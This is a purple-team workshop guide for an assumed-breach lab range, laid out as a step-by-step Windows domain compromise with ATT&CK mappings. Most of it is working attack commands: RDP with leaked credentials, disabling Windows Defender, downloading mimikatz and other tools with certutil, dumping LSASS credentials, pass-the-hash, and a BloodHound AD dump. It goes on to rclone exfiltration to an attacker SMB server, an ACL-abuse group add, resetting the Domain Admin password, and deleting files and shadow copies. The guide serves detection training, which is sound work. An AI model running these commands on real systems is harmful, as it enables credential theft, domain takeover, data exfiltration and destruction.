

# Red Team Emulation

## Introductory Notes - How to Work in your Table Team
- *IMPORTANT NOTE*: Red team emulation actions can only be run once per table by one participant
- If you experience issues with typing special characters like `\` or `|` use the on-screen keyboard of the target VM
- For the purple team exercise we need to define one red team lead who will do the emulation **Steps in Kali Linux, please define that person now
- During emulation the others watch the actions performed and assist the acting red teamer of their table team
- Define one blue lead who will coordinate the table's blue verification and documentation activites
- All participants can use Splunk and Google Documents in parallel so you can cooperate in the blue team verification tasks
- We will perform the attack simulation in multiple stages always first red and then blue
- After running through the emulation steps it will take up to 5' for the detection events to show up in Splunk as "notables"
- We will not actually do IR but feel free to discuss blue IR actions as time permits

## Setup


### Compromised user credentials

Username: `PurpleUser`
Password: `SecurePwd123`

## Part 1

### Login with compromised account

Since this is an assumed-breach scenario, we already have credentials for a local account on one of the server.

Let's RDP in and have a look around

**Step 1**
```bash
[KALI:bash] xfreerdp3 /u:PurpleUser /p:SecurePwd123 /v:10.0.1.15 /cert:ignore +clipboard
```
ATT&CK Techniques: `T1021.001` `T1078`

### Situational awareness

Now that we are on the system, we need to get a better understanding what this system is and what defenses it has

Let's check our permissions and get information about the system. Are we admins? Is system domain-joined?

**Step 2**
```PowerShell
[ITSERVER:PowerShell] whoami /all
[ITSERVER:PowerShell] systeminfo
```
ATT&CK Techniques: `T1033` `T1082` `T1059.001` (PowerShell T1059.001 will not be mentioned after that every time it is used)

Who else is logged in on the system?

**Step 3**
```PowerShell
[ITSERVER:PowerShell] quser
```
ATT&CK Techniques: `T1033` `T1082`

Who are administrators on this system?

**Step 4**
```PowerShell
[ITSERVER:PowerShell] net localgroup administrators
```
ATT&CK Techniques: `T1069.001`

What processes are running? Are there any monitoring tools running on the system?

**Step 5**
```PowerShell
[ITSERVER:PowerShell] Get-Process | Select -Unique ProcessName
```
ATT&CK Techniques: `T1057`

Is Windows Defender running?

**Step 6**
```PowerShell
[ITSERVER:PowerShell] Get-MpComputerStatus
```
ATT&CK Techniques: `T1057`

### Security tools tampering

We see that we have admin privileges on this system, let's disable some security tools to make our life simpler...

> [!IMPORTANT]
> Re-open PowerShell as Administrator

Now let's disable a bunch of useful things in Windows Defender. We can turn off realtime monitoring (which includes antivirus), behavior monitoring, script scanning, and blocking at first sight.

**Step 7**
```PowerShell
[ITSERVER:PowerShell] Set-MpPreference -DisableRealtimeMonitoring 1
[ITSERVER:PowerShell] Set-MpPreference -DisableBehaviorMonitoring 1
[ITSERVER:PowerShell] Set-MpPreference -DisableScriptScanning 1
[ITSERVER:PowerShell] Set-MpPreference -DisableBlockAtFirstSeen 1
```
ATT&CK Techniques: `T1562.001`

Now the system won't put up a fight when we drop malware on it.

### Dumping credentials

Our account is local and not joined to the domain which makes it a bit harder to query Active Directory and move laterally or escalate privileges.
During situational awareness we saw that the system is domain-joined and a domain user is logged in.
Let's use a popular tool `mimikatz` to dump locally cached credentails and get an NTLM hash of that AD user.

We can transfer the tool using `certutil`

**Step 8**
```PowerShell
[ITSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/mimikatz.exe C:\Temp\m.exe
```
ATT&CK Techniques: `T1105`

And then execute it to dump the credentials from LSASS process (make sure PowerShell is running with admin privileges)

**Step 9**
```PowerShell
[ITSERVER:PowerShell] C:\temp\m.exe

[ITSERVER:mimikatz] privilege::debug
[ITSERVER:mimikatz] sekurlsa::logonpasswords
```
ATT&CK Techniques: `T1003.001`

You should be able to see the NTLM hash of `billh` domain user and can now use it move forward with attacking AD.

### Pass the Hash

While still in `mimikatz` we can use that hash of the domain user (`ATTACKRANGE\billh`) in an Pass-the-Hash attack to start a PowerShell with a Kerberos ticket belonging to that user (i.e. impersonate that user).

**Step 10**
> [!IMPORTANT]
> Replace \<NTLM-hash\> with the actual sting obtained from the previous step

```PowerShell
[ITSERVER:mimikatz] sekurlsa::pth /user:billh /ntlm:<NTLM-hash> /domain:attackrange /run:powershell
```
ATT&CK Techniques: `T1550.002`

This will spawn a new PowerShell. If you run `whoami` you will still see `PurpleUser`, however, as far as other services are concerned, you are `ATTACKRANGE\billh`.

### Enumerate AD

Now that we are in control of an AD user, let's enumerate the domain and find a way to escalate our privileges to Domain Admin.
Let's use popular tool called `Bloodhound` to gather the data and then visualize it.

We can download the data collector with `certutil` as before

**Step 11**
```PowerShell
[ITSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/SharpHound.exe C:\Temp\sh.exe
```
ATT&CK Techniques: `T1105`

And then run it to collect all data about the domain, its users, computers, groups and their privileges

**Step 12**
```PowerShell
[ITSERVER:PowerShell] C:\temp\sh.exe --memcache --zipfilename c.zip --outputdirectory C:\temp\
```
ATT&CK Techniques: `T1087.001` `T1087.002` `T1560` `T1059.001` `T1482` `T1615` `T1106` `T1201` `T1069.001` `T1069.002` `T1018` `T1033`

### Exfiltrate AD dump

To exfiltrate the AD data collection, we will use `rclone`.

Let's download `rclone` executable on the system first:

**Step 13**
```PowerShell
[ITSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/rclone.exe C:\Temp\r.exe
```
ATT&CK Techniques: `T1105`

> [!IMPORTANT]
> When saving the file in Notepad select "Save as" and "Save as type: All files" so no .txt is appended to the filename.

Then we'll need to create a config file for `rclone` and put it in `C:\Temp\r.conf`:

**Step 14**
```
[ss]
type = smb
host = 10.0.1.30
user = user
pass = KN_sSidIRaFo_cmcZ_YNa5o8SLfyli8
```
ATT&CK Techniques: `T1105` `T1564` `T1048`

In the meantime, on our Kali machine, we will create a `loot` folder and start an SMB server with it:

```bash
[KALI:bash] mkdir loot
[KALI:bash] impacket-smbserver -smb2support -username user -password pass123 data ./loot
```

Now that SMB server is running and our `rclone` is ready, let's copy the AD dump file from Windows to Kali:

**Step 15**
> [!IMPORTANT]
> Replace \<c.zip-filename\> with the actual name of the ZIP file created

```PowerShell
[ITSERVER:PowerShell] C:\Temp\r.exe --config C:\Temp\r.conf copy C:\Temp\<c.zip-filename> ss:data --no-check-dest
```
ATT&CK Techniques: `T1048`

## Part 2

### Import AD dump into Bloodhound and find path to Domain Admins

Now you will need to go to `http://localhost:8080` in your browser, login as `admin` user with your attack range password.

After logging into Bloodhound, go to Administration section and File Ingest and import the ZIP file into it.

We mark our AD user as compromised and then we find a path from the compromised principal to Domain Admins



We can see that our compromised user is a member of `ServerAdmins` group which has `GenericWrite` permissions over the `ITSupport` group which in turn has `AllExtendedRights` over `Administrator` who is Domain Admin.

### AD Privilege Escalation

Let's go back to our compromised system with a compromised AD user and follow that privilege escalation path to become become Domain Admin.

In order to convienently run Active Directory commands, let's import Active Directory PowerShell module.
Usually it comes with RSAT AD tools, but we can also get it directly from the Microsoft DLL. Let's download it with `certutil` and import it

**Step 16**
```PowerShell
[ITSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/PowerShellActiveDirectory.dll C:\Temp\a.dll
[ITSERVER:PowerShell] Import-Module C:\Temp\a.dll
```
ATT&CK Techniques: `T1105`

`GenericWrite` persmissions that we have on our compormised account mean that we can add ourselves to the `ITSupport` group. Let's do that!

**Step 17**
```PowerShell
[ITSERVER:PowerShell] Add-ADGroupMember -Identity "ITSupport" -Members "billh"
```
ATT&CK Techniques: `T1098.007`

Great! We now have `AllExtendedRights` over all other users including domain administrator. This means that we can set its password which is exactly what we are going to do.

You will need to close the current PowerShell window and open it again from `mimikatz` to make sure the new group membership is activated. Don't forget to also re-import `a.dll`. After that, let's reset domain administrator's password.

**Step 18**
```PowerShell
[ITSERVER:PowerShell] Set-ADAccountPassword -Identity "Administrator" -NewPassword (ConvertTo-SecureString 'DomainPwned!' -AsPlainText -Force) -Reset
```
ATT&CK Techniques: `T1098`


Done! We changed the password of the Domain Admin to the one of our choice and have compromised the domain.

With Domain Admin privileges we can now finally log into the 3rd server.

**Step 19**
```bash
[KALI:bash] xfreerdp3 /u:Administrator /p:'DomainPwned!' /d:ATTACKRANGE /v:10.0.1.16 /cert:ignore +clipboard
```
ATT&CK Techniques: `T1021.001` `T1078`

Let's now exfiltrate them over `rclone` similarly to Part 2.

But let's do one more quick additional step and disable Realtime Monitoring in Windows Defender on this system because it might complain about `rclone`:

**Step 20**
```PowerShell
[FINSERVER:PowerShell] Set-MpPreference -DisableRealtimeMonitoring 1
```
ATT&CK Techniques: `T1562.001`

We can now download the `rclone` executable:

**Step 21**
```PowerShell
[FINSERVER:PowerShell] certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/rclone.exe C:\Temp\r.exe
```
ATT&CK Techniques: `T1105`

And create a config file `C:\Temp\r.conf`:

**Step 22**
```
[ss]
type = smb
host = 10.0.1.30
user = user
pass = KN_sSidIRaFo_cmcZ_YNa5o8SLfyli8
```
ATT&CK Techniques: `T1105` `T1564` `T1048`

Then we start the SMB server on Kali:

```bash
[KALI:bash] impacket-smbserver -smb2support -username user -password pass123 data ./loot
```

And finally we exfiltrate the files that we want (make sure PowerShell is runnning with admin privileges):

**Step 23**
```PowerShell
[FINSERVER:PowerShell] C:\Temp\r.exe --config C:\Temp\r.conf copy C:\Users\Administrator\Documents\finance.db ss:data --no-check-dest
```
ATT&CK Techniques: `T1048`

Having exfiltrated the files, let's delete them and all shadow copies using `vssadmin` on the system to prevent the files to be restored:

**Step 24**
```PowerShell
[FINSERVER:PowerShell] rm C:\Users\Administrator\Documents\finance.db
[FINSERVER:PowerShell] vssadmin.exe delete shadows /all
```
ATT&CK Techniques: `T1490`
